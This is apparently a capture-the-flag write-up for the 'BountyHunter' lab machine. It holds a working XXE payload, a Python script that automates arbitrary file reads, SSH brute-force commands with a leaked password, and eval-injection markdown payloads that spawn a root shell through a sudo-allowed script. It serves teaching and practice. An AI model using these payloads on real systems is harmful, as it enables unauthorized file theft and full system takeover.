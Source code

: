 # @author : M3tr1c_r00t
## BountyHunter!
![BountyHunter](https://user-images.githubusercontent.com/99975622/204362290-57dd3f77-0c4a-4761-bcd4-76c1fa21dbdd.png)

### Enumeration...
So as always we start with an nmap scan.....
![Screenshot_2022-11-22_00_19_21](https://user-images.githubusercontent.com/99975622/204362544-3d1f83c2-e0c7-44fb-84d3-8e55aa21a597.png)
We can that there are 2 ports open.... ssh and port 80.

Gobusterscan
After running a gobuster scan,we find a couple of directories which we could check out...
![Screenshot_2022-11-22_00_19_11](https://user-images.githubusercontent.com/99975622/204362796-ae3b0889-5ed1-4685-a4be-0da476983f91.png)

### XXE Vulnerability
![image](https://user-images.githubusercontent.com/99975622/204363407-cb28d4a3-abf8-4cb9-be8f-9c392b877e56.png)
After checking out the site, we find there's a submit page which sent data in form of a base64 encoded xml format.
After finding out about thid while using burpsuite, we can try using the basic xxe and we achieved Arbibrary file read....
On this same account, i made a python script which allows for file read and only outputs the file read contents....



```
You can take advantage of this XXE using the following in the request of the site in burpsuite; 

<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///{test}'>]>
                <bugreport>
                <title>tester</title>
                <cwe>&test;</cwe>
                <cvss>10</cvss>
                <reward>5555</reward>
                </bugreport>

```
Checkout my Python script......
```
#!/usr/bin/python3
#@author: M3tr1c_r00t
import requests
import base64
import sys
import cmd

def getFile(fname):
	#fname = sys.argv[1]
	#fname = '/etc/passwd'
	payload=f"""<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource={fname}"> ]>
		        <bugreport>
		        <title>tester</title>
		        <cwe>&xxe;</cwe>
		        <cvss>10</cvss>
		        <reward>5555</reward>
		        </bugreport>""".encode()


	payload_b64 = base64.b64encode(payload).decode()
	data = {"data": payload_b64}
	r = requests.post("http://10.129.114.104//tracker_diRbPr00f314.php", data=data)
  #change your ip in r!
	#output = r.text
	output = (r.text).split('>')[11:][:-4]
	#print(base64.b64decode(output).decode())
	conf = output[0].split("<")
	#print(bytes.decode(base64.b64decode(conf[0])))
	return bytes.decode(base64.b64decode(conf[0]))
	
	
	
class XxeLeak(cmd.Cmd):
	prompt = "M3tr1c_r00t> "
	def default(self,args):
		print(getFile(args))
XxeLeak().cmdloop()

```

In my script ive changed the XXE to php filter base64 encode because when you try to visit the /var/www/hmtl/index.php the output is nothing... ; and to fix that we use the php filter one.

After making the script, i ran gobuster once again but using the "-x php" to specify that we want to find php files...; and we get db.php

On viewing this file, we find some creds...
![Screenshot_2022-11-21_23_48_11](https://user-images.githubusercontent.com/99975622/204366691-dfddd8fb-5edd-4c36-9c6e-3eb6bc79f4de.png)

Next up, we use crackmapexec to bruteforce the creds to the specific users or you can also use hydra...

We get the users from the /etc/passwd file .....

```
Crackmapexec:
crackmapexec ssh 10.129.114.104 -u users.txt -p "m19RoAU0hP41A1sTsq6K"
Hydra:
hydra -L users.txt -P passwd.txt 10.10.14.62 -t 4 ssh
```
And we get creds!

We can now SSH into the machine!
![Screenshot_2022-11-21_23_50_20](https://user-images.githubusercontent.com/99975622/204367424-6f164a04-0e59-4410-8fe4-c40d7c5bce96.png)

On logging in, we find there's a file which we can execute by using python as sudo....
![Screenshot_2022-11-21_23_53_08](https://user-images.githubusercontent.com/99975622/204368205-c4f4b178-4c95-4e6d-84b9-72cb2edc3cd1.png)
But the bad news is that that script is read only.

Its a Ticket validator script ...

```
development@bountyhunter:~$ cat /opt/skytrain_inc/ticketValidator.py
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()

```
We can take advantage of this as the script reads the markdown files line by line and is vulnerable to code execution.

We can modify the markdown files and add some a bin bash to help as get bash as root.

```
# Skytrain Inc
## Ticket to Bridgeport
__Ticket Code:__
**32+110+43+ __import__('os').system('bash')**
##Issued: 2021/04/06
#End Ticket
```
This also works....
```
development@bountyhunter:~/tmp$ cat exp.md 
# Skytrain Inc   
## Ticket to root  
__Ticket Code:__  
**11+100==111 and exec("import pty; pty.spawn(\"/bin/sh\")")

```
And we are root!
Done!
### Socials
@Instagram:https://instagram.com/M3tr1c_r00t
<br>@Twitter:https://twitter.com/M3tr1c_root
